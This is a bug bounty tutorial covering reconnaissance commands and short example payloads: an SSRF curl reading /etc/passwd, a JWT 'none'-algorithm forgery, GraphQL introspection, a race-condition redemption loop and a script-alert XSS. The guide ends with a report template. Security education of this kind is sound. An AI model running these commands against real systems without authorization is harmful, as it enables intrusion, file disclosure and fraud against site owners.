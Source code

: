 ```yaml
---
title: "Bug Bounty Roadmap: A Step-by-Step Guide for 2025"
date: 2025-03-15
description: "A practical guide to approaching a bug bounty target, finding vulnerabilities, and exploiting common bugs in 2025."
---
```


# Bug Bounty Roadmap: A Step-by-Step Guide for 2025

Bug bounty hunting remains a lucrative and exciting field in 2025. This guide provides a structured approach to hacking a target, the types of vulnerabilities that are still common, and how to exploit them. 

## 1. Understanding the Target

Before diving into active reconnaissance, start with a passive approach:

### Passive Recon
- **Google Dorking**: Use search operators like:
  ```bash
  site:target.com intitle:"index of"
  site:target.com ext:log
  ```
- **Wayback Machine**: Check archived versions for exposed endpoints.
- **GitHub Recon**:
  ```bash
  github-subdomains -d target.com
  ```
  Look for API keys and secrets in GitHub repositories.

### Active Recon
- **Subdomain Enumeration**:
  ```bash
  subfinder -d target.com | httprobe
  amass enum -d target.com
  ```
- **Port Scanning**:
  ```bash
  nmap -p- -sC -sV target.com
  ```
- **Directory Enumeration**:
  ```bash
  ffuf -w wordlist.txt -u https://target.com/FUZZ -fc 403
  ```

## 2. Common Vulnerabilities & Exploits in 2025

### 2.1. Server-Side Request Forgery (SSRF)
**What?** An attacker forces the server to make HTTP requests on their behalf.

**Where to look?**
- Image upload features.
- Webhooks and API integrations.

**Exploitation Example:**
```bash
curl -X POST https://target.com/api/fetch -d 'url=file:///etc/passwd'
```

### 2.2. JSON Web Token (JWT) Attacks
**What?** JWTs used for authentication can be tampered with.

**Where to look?**
- Login authentication mechanisms.

**Exploitation Example:**
```bash
jwt_tool token.jwt -I -S -d
```
If `none` algorithm is supported, modify and resign:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

### 2.3. GraphQL Injections
**What?** Overly permissive GraphQL APIs expose sensitive data.

**Where to look?**
- `https://target.com/graphql` endpoint.

**Exploitation Example:**
```graphql
{
  __schema {
    types {
      name
    }
  }
}
```

### 2.4. Race Conditions
**What?** Executing multiple requests simultaneously to bypass restrictions.

**Where to look?**
- Password reset mechanisms.
- Gift card redemption systems.

**Exploitation Example:**
```bash
while true; do curl -X POST https://target.com/redeem -d "code=FREE100"; done
```

### 2.5. DOM-based XSS
**What?** JavaScript manipulation leading to client-side attacks.

**Where to look?**
- User input reflected in JS variables.

**Exploitation Example:**
```html
<script>alert(document.domain)</script>
```

## 3. Post-Exploitation and Reporting

### Gaining Further Access
- If you find **LFI**, escalate to **RCE**.
- If you find **IDOR**, combine it with **Privilege Escalation**.

### Writing a Good Report
- Include **POC (Proof of Concept)** videos.
- Detail the **impact** of the vulnerability.
- Suggest **mitigations**.

### Example Report Structure
```
# Vulnerability: SSRF in Webhook Function

## Description
The webhook endpoint allows external URL requests without proper validation.

## Steps to Reproduce
1. Send a POST request to the webhook endpoint with an internal IP.
2. Observe that internal services are accessible.

## Impact
This vulnerability allows access to internal resources, leading to potential RCE.

## Suggested Fix
Validate user-supplied URLs and restrict internal IP ranges.
```

## 4. Essential Tools for Bug Bounty Hunters

- **Burp Suite** - HTTP interception & automation.
- **FFUF** - Directory fuzzing.
- **Nuclei** - Automated vulnerability scanning.
- **Subfinder & Amass** - Subdomain enumeration.
- **JWT Tool** - JWT attacks.
- **GraphQLmap** - GraphQL testing.

## 5. Conclusion
Bug bounty hunting in 2025 still requires creativity and persistence. While automation helps, a hacker's mindset is irreplaceable. Keep learning, keep testing, and most importantly, have fun hacking!

---

*This article is regularly updated with new methodologies and emerging threats in bug bounty hunting. Stay tuned!*
